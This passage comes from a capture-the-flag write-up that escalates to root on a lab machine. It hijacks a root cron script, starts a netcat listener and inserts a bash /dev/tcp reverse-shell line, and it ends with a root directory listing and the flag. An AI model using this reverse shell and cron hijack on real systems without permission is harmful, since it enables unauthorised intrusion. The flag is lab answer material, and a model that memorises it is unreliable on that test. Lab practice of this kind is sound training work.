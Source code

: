 ```
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
- Third: Check **mysecretcronjob.sh**
```
boring@kral4-PC:/var/www$ cat .mysecretcronjob.sh
#!/bin/bash
# i will run as root
```
- Fourth: Start a listener
```
nc -nlvp 4444
```

- Fifth: let's create a reverse shell by updating the content of this file. Check the website [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Add this line with the appropriate infroamtion 
```
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```
- Sixth: Wait few second and that works ^^. If we check the content of **/root** with **ls** command, nothing appear. We need to use the option **-la** to also see hidden files.
```
root@kral4-PC:~# ls -la
ls -la
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root    2 Dec  7 10:50 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
``` 
- Seventh: check **.root.txt**

**Answer**
###### flag{63a9f0ea7bb98050796b649e85481845}

